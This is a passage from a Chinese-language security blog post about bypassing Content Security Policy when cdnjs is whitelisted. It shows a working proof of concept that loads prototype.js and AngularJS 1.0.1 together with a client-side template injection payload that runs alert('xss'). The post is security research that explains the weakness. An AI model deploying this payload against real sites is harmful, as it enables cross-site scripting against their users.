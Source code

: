 ```yaml
---
title: 自動化尋找 AngularJS CSP Bypass 中 prototype.js 的替代品
catalog: true
date: 2022-09-01 19:31:10
tags: [Security]
categories: [Security]
---
```


<img src="/img/angularjs-csp-bypass-cdnjs/cover.png" style="display:none">

在我之前的文章：[從 cdnjs 的漏洞來看前端的供應鏈攻擊與防禦](https://blog.huli.tw/2021/08/22/cdnjs-and-supply-chain-attack/)裡面有提過可以藉由 cdnjs 來繞過 CSP，而有其中一種繞過手法必須搭配 prototype.js 才能成功。

在理解原理之後，我開始好奇在 cdnjs 上面是否還有其他 library 可以做到類似的事情，因此就開始著手研究。

這篇會從 cdnjs 的 CSP 繞過開始講，講到為什麼需要 prototype.js，接著再提到我怎麼從 cdnjs 上找到它的替代品。



## cdnjs + AngularJS CSP bypass

在 CSP 裡面放上 `https://cdnjs.cloudflare.com` 其實是很危險的一件事情，因為有一個許多人都知道的方式，可以繞過這個 CSP。

詳情可參考這兩篇文章：

1. [Bypassing path restriction on whitelisted CDNs to circumvent CSP protections - SECT CTF Web 400 writeup](https://blog.0daylabs.com/2016/09/09/bypassing-csp/)
2. [H5SC Minichallenge 3: "Sh*t, it's CSP!"](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22)

實際的繞過方式如下：

``` html
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>CSP bypass</title>
    <meta
      http-equiv="Content-Security-Policy"
      content="default-src 'none'; script-src https://cdnjs.cloudflare.com">
  </head>
  <body>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
    <div ng-app ng-csp>
      {{$on.curry.call().alert('xss')}}
    </div>
  </body>
</html>
```

因為 CSP 中有 cdnjs，所以我們可以引入其他的 library，這邊我們挑的是 AngularJS，引入了以後我們就可以用 CSTI 的方式注入底下這一段：

``` html
<div ng-app ng-csp>
  {{$on.curry.call().alert('xss')}}
</div>
```
